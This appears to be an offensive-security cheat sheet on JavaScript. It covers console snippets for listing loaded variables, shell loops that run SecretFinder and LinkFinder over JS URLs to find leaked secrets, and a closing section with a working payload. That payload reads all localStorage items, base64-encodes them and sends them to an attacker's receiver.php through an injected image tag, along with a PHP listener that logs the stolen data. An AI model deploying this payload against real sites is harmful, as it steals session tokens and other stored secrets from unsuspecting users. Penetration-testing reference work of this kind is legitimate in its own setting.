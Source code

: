 # All Stuff JS
## Debugging
To list all currently loaded JavaScript variables in the browsers console:   
```
for(var b in window) {
if(window.hasOwnProperty(b)) console.log(b);
}
```
Another method with more output:   
```
var n, arg, name;
console.log("typeof this = " + typeof this);
for (name in this) {
    console.log("this[" + name + "]=" + this[name]);
}
for (n = 0; n < arguments.length; ++n) {
    arg = arguments[n];
    console.log("typeof arguments[" + n + "] = " + typeof arg);
    for (name in arg) {
        console.log("arguments[" + n + "][" + name + "]=" + arg[name]);
    }
}
``` 

## Searching for low hanging fruits
### Secretfinder
`$ for url in $(cat /root/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -o cli; done`   
Using a proxy:   
`$ for url in $(cat /home/kali/Desktop/urls_js.txt); do python3 SecretFinder.py -i $url -p http://localhost:8080 -o cli; done`    

### Linkfinder
`# for url in $(cat /root/Desktop/urls_js.txt); do python3 linkfinder.py -i $url -o cli; done`   

## Sending Local Storage Items to Remote Server
### JavaScript (client) 
```
newString = "";
for (var a in localStorage) {
    newString += a + "="
    newString += localStorage[a];
    // Encode the String
    var encodedString = btoa(unescape(encodeURIComponent(newString)))
    //console.log(newString);
    //console.log(encodedString);
    document.write('<img src="https://10.10.10.10/attackerswebapp/receiver.php?str='+encodedString+'">');
    newString = "";
}
```
### PHP listener (server)
```
<?php
$encodedstr = $_GET["str"];
$file = fopen('log.txt', 'a');
$string = base64_decode($encodedstr);
fwrite($file, $string . "\n\n");
?>
```

